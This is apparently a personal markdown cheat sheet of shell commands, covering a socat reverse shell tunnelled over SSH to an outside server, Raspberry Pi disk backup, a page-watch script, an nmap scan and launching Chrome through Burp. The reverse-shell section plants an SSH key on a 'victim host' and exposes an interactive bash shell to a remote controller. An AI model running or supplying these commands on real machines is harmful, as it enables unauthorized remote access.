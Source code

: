 ```yaml
---
title: Commands Cheat Sheet
lang: en-US
description: A running list of the commands I use frequently, so I can quickly acess them 😀.  Raspberry Pi SD Card Backups, Chrome for Burp and NMAP
date: "2020-06-14"
---
```


# Commands Cheat Sheet
A running list of the commands I use frequently, so I can quickly acess them 😀

## Reverse Shells
Example Server (To be replaced with yours): `rj3.me`
### `socat`

#### Victim Host
```bash
# Setup machine to connect back to C2
echo "|1|<C2 Host Fingerprint>" > ~/.ssh/known_hosts && chmod 0600 ~/.ssh/known_hosts
RUN echo "<BASE64 SSH key>" | base64 -d > ~/.ssh/id_rsa
RUN chmod 0600 ~/.ssh/id_rsa
ssh -f -N -T -R2203:localhost:9996 username@rj3.me
while true; do
  socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp-listen:9996
done
```
#### Remote Host
```bash
# Ensure that port 9996 is open
socat file:`tty`,raw,echo=0 tcp:localhost:2203
```


## Mac
### Backup Raspberry Pi SD Card
```bash
diskutil list # Find disk you want to copy
sudo dd if=/dev/rdisk2 bs=1m | gzip > ./tmp/pi_backup.gz # Change the disk number to be the disk to copy
```
### Check for webpage updates
```bash
#!/bin/bash
# Script to use when watching a page for a specific change
URL="https://rj3.me"
TEXT_TO_MATCH="Robert"

while true
do
	curl -v $URL | grep "$TEXT_TO_MATCH" &> /dev/null && osascript -e 'display notification "Matched!"'
    sleep 10
done
```

### Nmap

```bash
nmap -v -o -p 1-65535 #host
```

### Launch Chrome for Burp
Prereq: All Chrome instances need to be fully closed(`cmd+q`) before running this, otherwise the settings won't take.
```bash
/Applications/Google\ Chrome.app/Contents/MacOS/Google\ Chrome --proxy-server=http://localhost:8080 #--ignore-certificate-errors
```
*Note: Ignore certificate errors can be used if you can't install the Burp CA, but it is NOT recommended.*
